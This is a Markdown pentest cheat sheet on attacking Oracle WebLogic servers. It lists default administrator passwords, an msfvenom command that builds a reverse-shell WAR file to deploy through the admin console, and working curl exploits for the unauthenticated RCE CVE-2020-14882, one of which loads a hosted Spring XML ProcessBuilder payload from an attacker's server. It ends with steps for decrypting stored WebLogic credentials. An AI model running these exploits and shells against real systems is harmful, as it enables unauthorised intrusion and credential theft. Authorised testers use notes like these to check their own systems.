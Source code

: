 ```yaml
---
title: WebLogic pentest notes
---
```


Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:
![lock and edit](./WebLogic/wl.PNG)


Unauthenticated RCE CVE-2020-14882
==================================
There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all the other exploits obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/rce');")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* SerializedSystemIni.dat: this is the decryption key in binary format so you usually can't grab it using LFI...
* boot.properties: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
